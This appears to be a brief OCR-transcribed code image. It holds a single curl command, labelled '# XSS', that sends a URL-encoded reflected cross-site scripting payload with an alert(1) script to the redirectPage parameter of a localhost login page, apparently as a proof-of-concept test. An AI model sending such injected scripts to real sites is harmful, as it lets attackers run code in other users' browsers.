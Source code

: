 
  # XSS
  curl "http://localhost:3001/login?re
  directPage=%22%3E%3Cscript%3Ealert(1
  )%3C/script%3E"
